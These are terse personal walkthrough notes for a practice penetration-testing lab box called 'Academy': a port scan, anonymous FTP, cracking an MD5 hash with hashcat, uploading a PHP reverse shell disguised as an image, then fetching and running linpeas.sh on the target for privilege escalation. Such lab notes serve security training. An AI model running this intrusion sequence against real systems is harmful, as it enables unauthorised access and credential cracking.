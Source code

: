 ### Academy Box
login root
pass tcm

- setup dns
	- dhclient
	- ip a

nmap -A -p- -T4 $ip 

POI list
- vsftpd
- anonymous login
- openssh 7.9
- apache 2.4.38
- default apache page 

$ ftp $ip
$ get note.txt
$ hash-identifier 
	might be md5
google hashcat crack md5
google hashcat modules
$ vim hast.txt
$ locate rockyou.txt
$ hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt

$ip/academy/my-profile.php

google php reverse shell

upload code as picture

google linpeas
download linpeas.sh
$ python3 -m http.server 80

$ wget http://$ip/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh

